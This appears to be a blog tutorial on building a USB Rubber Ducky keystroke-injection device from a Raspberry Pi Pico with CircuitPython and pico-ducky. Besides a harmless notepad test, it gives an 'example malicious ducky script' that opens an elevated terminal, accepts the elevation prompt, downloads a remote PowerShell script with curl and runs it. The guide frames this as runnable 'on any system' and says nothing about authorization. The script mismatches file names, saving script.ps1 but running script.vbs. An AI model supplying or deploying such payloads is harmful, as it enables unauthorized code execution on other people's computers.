

# **USB Rubber Ducky using Raspberry PI Pico**

#### **Table of Contents**

1. What is Raspberry PI Pico?
2. Why hackers use Raspberry Pi Pico?
3. How to make USB Rubbery ducky using Raspberry PI pico.
4. Summary.

#### **What is Raspberry PI Pico?**

The Raspberry Pi Pico is a microcontroller board developed by the Raspberry Pi Foundation, known for its popular line of single-board computers (SBCs) like the Raspberry Pi 4. The Raspberry Pi Pico was introduced in January 2021 and is designed to provide an affordable and accessible platform for embedded systems, electronics projects, and learning about microcontrollers.

<figure><figcaption></figcaption></figure>

Key features and specifications of the Raspberry Pi Pico include:

1. **Microcontroller:** The Pico is powered by the RP2040 microcontroller chip, which was also designed by the Raspberry Pi Foundation. The RP2040 is built around a dual-core ARM Cortex-M0+ processor and provides various I/O capabilities for interfacing with sensors, displays, and other hardware components.
2. **Memory:** It has 264KB of SRAM, which is used for program execution and data storage.
3. **GPIO Pins:** The board features 26 general-purpose input/output (GPIO) pins, which can be used for digital input and output, analog-to-digital conversion, PWM (Pulse Width Modulation), and more.
4. **Power Supply:** It can be powered via a micro USB port or an external power supply (3.3V to 5V).
5. **Connectivity:** While the Raspberry Pi Pico itself doesn't have built-in wireless connectivity like Wi-Fi or Bluetooth, you can add these capabilities through external modules or shields.
6. **Programming:** The Pico can be programmed using MicroPython, CircuitPython, C/C++, and other programming languages. It's compatible with popular development environments like Thonny, Visual Studio Code, and PlatformIO.
7. **Cost:** One of the notable aspects of the Raspberry Pi Pico is its low cost, making it an attractive option for educational institutions and hobbyists.

The Raspberry Pi Pico is suitable for a wide range of applications, including robotics, home automation, sensor-based projects, and IoT (Internet of Things) devices. It has gained popularity for its ease of use, extensive documentation, and the support of the Raspberry Pi community.

Overall, the Raspberry Pi Pico is a versatile microcontroller board that provides an excellent platform for learning about embedded systems and developing various electronic projects.

#### **Why hackers use Raspberry PI Pico?**

1. **Penetration Testing and Security Research:** Ethical hackers, security researchers, and penetration testers may use Raspberry Pi Pico to assess the security of computer systems, networks, and IoT devices. They can use it to identify vulnerabilities and weaknesses in systems and report them to the owners for mitigation.
2. **Exploiting Vulnerabilities:** Malicious hackers may use a Raspberry Pi Pico to exploit vulnerabilities in systems and gain unauthorized access. They can use the board to automate and script attacks, such as brute-force password cracking or launching malware.
3. **Physical Attacks:** Raspberry Pi Pico can be used in physical attacks where attackers gain physical access to a target system. For example, an attacker could use it to emulate a keyboard and inject malicious commands into a victim's computer when plugged into a USB port.
4. **IoT Device Compromises:** IoT devices are sometimes vulnerable to attacks. Hackers may use Raspberry Pi Pico to reverse engineer and compromise IoT devices, potentially using them as part of a botnet or for other malicious purposes.
5. **Data Exfiltration:** In some cases, attackers may use the board to exfiltrate sensitive data from compromised systems. They can program it to act as a data exfiltration tool, sending stolen information to a remote server.
6. **Network Attacks:** Raspberry Pi Pico can be used as a network tool to intercept or manipulate network traffic. For example, it could be programmed to act as a rogue access point, allowing attackers to perform man-in-the-middle attacks.
7. **Educational and Skill Development:** It's worth noting that some individuals with a strong interest in technology may initially experiment with Raspberry Pi Pico for legitimate educational purposes but may later misuse their knowledge and skills for malicious activities.

#### **How make USB Rubbery ducky using Raspberry PI pico.**

**Requirements:**

1. Raspberry Pi Pico
2. Micro USB cable
3. Any Text editor like Sublime/Notepad.

**Setup:**

1. First download the circuit python for your pico from [here](https://circuitpython.org/board/raspberry\_pi\_pico/).

<figure><figcaption></figcaption></figure>

Note:- If you are using pico w then download this it from [here](https://circuitpython.org/board/raspberry\_pi\_pico\_w/).

2. Connect your pico to system.

<figure><figcaption></figcaption></figure>

3. Now copy paste the  `.uf2` circuit python file to pico. It will disconnect pico and automatically and connect it back to system automatically.

<figure><figcaption></figcaption></figure>

4. Now download the latest release of `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` from [here](https://github.com/adafruit/Adafruit\_CircuitPython\_Bundle/releases/) and extract it on your system.

<figure><figcaption></figcaption></figure>

5. Navigate to `lib` folder and copy the `adafruit_hid` folder to the pico.

<figure><figcaption></figcaption></figure>

6. Now copy the following files and folder from `adafruit_hid/lib` to `lib` folder of pico.
   1. `adafruit_debouncer.mpy`
   2. `adafruit_tricks.mpy`
   3. `addafruit_wsgi`
   4. `asyncio`

<figure><figcaption></figcaption></figure>

7. Now download the `pico-ducky.zip` from github [repository](https://github.com/dbisu/pico-ducky) and extract it.

<figure><figcaption></figcaption></figure>

8.  Now copy the following files from the pico-ducky folder to pico drive.

    1. `boot.py`
    2. `duckyinpython.py`
    3. `code.py`
    4. `webapp.py`
    5. `wsgiserver.py`

    **From:**

<figure><figcaption></figcaption></figure>

&#x20;        **To:**&#x20;

<figure><figcaption></figcaption></figure>

9. Now open any text editor you like and copy paste the following ducky script. for testing the pico-ducky only.

**Script:**

`GUI r`&#x20;

`DELAY 1000`&#x20;

`STRING notepad.exe`&#x20;

`ENTER`&#x20;

`DELAY 1000`&#x20;

`STRING Hello World!`

<figure><figcaption></figcaption></figure>

And save it as `payload.dd` in pico drive.

Now disconnect and reconnect the pico to test if it is working or not. If it is working it will open notepad and type `Hello World!` in it.

10. Now you can write your own ducky script inside the `payload.dd` file and run it on any system.

**Note: -** After saving the ducky script in payload.dd it will execute it immediately on connected system. So keep that in mind before writing the ducky script.

`Hello World!` **Demo**:

[https://vimeo.com/870229586?share=copy](https://vimeo.com/870229586?share=copy)

**Example malicious ducky script:**

[https://vimeo.com/870230398?share=copy](https://vimeo.com/870230398?share=copy)

Script: -

`REM TO CLOSE OPENED FILE EXPLORER WE USE ALT F4`

`ALT F4`&#x20;

`DELAY 500`

`GUI r`

`DELAY 500`

`STRING wt`

`REM TO OPEN AS ADMINISTRATOR USING CONTROL SHIFT ENTER`&#x20;

`CONTROL SHIFT ENTER`

`DELAY 1000`&#x20;

`LEFT`&#x20;

`DELAY 500`

`ENTER`&#x20;

`DELAY 1000`

`STRING cd .\Downloads\`

`ENTER`&#x20;

`DELAY 500`

`STRING curl URL/to/your/powershell/script -O script.ps1`&#x20;

`ENTER`

`DELAY 500`

`STRING .\script.vbs`

`ENTER`

`DELAY 500`

`STRING exit`

`ENTER`

#### **Summary:**

In this blog post, we explore the Raspberry Pi Pico's versatility as a microcontroller board, discussing its programmable features. We investigate the motivations behind hackers and security enthusiasts choosing the Raspberry Pi Pico for ethical hacking and security testing. Furthermore, we provide a step-by-step guide on how to create a USB Rubber Ducky using the Raspberry Pi Pico, making it an accessible tool for various security and automation applications.

References:

[https://github.com/dbisu/pico-ducky](https://github.com/dbisu/pico-ducky)
